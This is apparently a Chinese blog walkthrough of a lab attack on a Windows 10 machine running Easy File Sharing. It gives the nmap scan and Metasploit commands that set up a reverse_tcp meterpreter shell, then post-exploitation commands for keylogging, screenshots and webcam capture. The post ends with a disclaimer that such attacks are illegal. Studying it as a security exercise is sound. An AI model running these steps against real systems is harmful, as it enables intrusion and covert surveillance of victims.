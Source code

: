 ﻿---
title: 利用msf攻击win10
date: 2019-03-30
---
-----------------------------------
攻击环境：
攻击者系统：虚拟机下kali linux
靶机系统：win10（需要打开Easy File Sharing服务）
攻击者ip：10.3.134.27
靶机ip：10.3.37.56
攻击者和靶机在同一个wifi下，保证在同一网段里，能互相ping通。
漏洞利用：EsayFileSharing
###### **注意点：** 攻击者的虚拟机网络模式应选择桥接模式。

--------------------

**准备工作完成，可以开始内网渗透之旅了。**

## step-1
首先我们先用nmap扫描一下靶机开了哪些服务
`root@kali:~# nmap -sV 10.3.37.56`
![namp扫描结果](https://s2.ax1x.com/2019/03/30/AByzVK.png)我们可以看到80端口和443端口开放了，对应的是Easy File Sharing Web Server，满足EasyFileSharing漏洞攻击，进入下一步。

## step-2
打开msf控制台，设置攻击参数

```
root@kali:~# msfconsole              #进入控制台，稍微等一下
msf > search EasyFileSharing         #查找我们要用的漏洞
```
![搜索结果](https://s2.ax1x.com/2019/03/30/AB63Mn.png)
我们选择最新的一个，2017-06-12的版本，并设置payload。

```
msf > use exploit/windows/http/easyfilesharing_post    #使用这个漏洞
msf exploit(windows/http/easyfilesharing_post) > set payload windows/meterpreter/reverse_tcp   #设置攻击payload
```
我们用show options看一下需要什么攻击参数

```
msf exploit(windows/http/easyfilesharing_post) > show options
```
![设置参数](https://s2.ax1x.com/2019/03/30/AB6bo8.png)
根据Required属性看一下哪些是需要配置的，其中一些是配置好的，我们只需将其他的配置好就ok了。
```
msf exploit(windows/http/easyfilesharing_post) > set lhost 10.3.134.27   #设置本地ip
msf exploit(windows/http/easyfilesharing_post) > set rhost 10.3.37.56    #设置远程ip
```
参数都配置好了，接着就是激动人心的exploit了。

```
msf exploit(windows/http/easyfilesharing_post) > exploit   #攻击
```
![显示这个页面，说明你成功了](https://s2.ax1x.com/2019/03/30/ABcCwV.png)
逐个输入以下命令，试试

```
meterpreter > getuid          #获取靶机uid
meterpreter > shell           #进入靶机shell
meterpreter > screenshot      #靶机截屏
meterpreter > webcam_snap     #用靶机摄像头拍照
meterpreter > webcam_stream   #用靶机摄像头录像
meterpreter > keyscan_start   #开启键盘记录
meterpreter > keyscan_dump    #捕获键盘记录
meterpreter > keyscan_stop    #停止键盘记录
```
我们来测试几个好玩的
***1st.捕捉靶机键盘记录*** 
![捕捉到靶机键盘记录（hack hack）](https://s2.ax1x.com/2019/03/30/ABcO76.png)
***2nd.捕捉靶机截屏***
![捕捉靶机截屏](https://s2.ax1x.com/2019/03/30/ABgkHP.png)
![捕捉靶机截屏](https://s2.ax1x.com/2019/03/30/ABg9cd.md.jpg)
***3rd.用靶机摄像头拍照***
![利用靶机摄像头拍照](https://s2.ax1x.com/2019/03/30/ABg8EV.png)
![靶机摄像头像素略渣，不过看看我们的公教区学习环境吧](https://s2.ax1x.com/2019/03/30/ABgn3Q.jpg)

## 小结：
**我们做攻击实验都是在环境都配置好的情况下，现实生活中不会有这么好的肉鸡。而且网络攻击属于违法行为，人生路漫漫，且行且珍惜hhhhh**
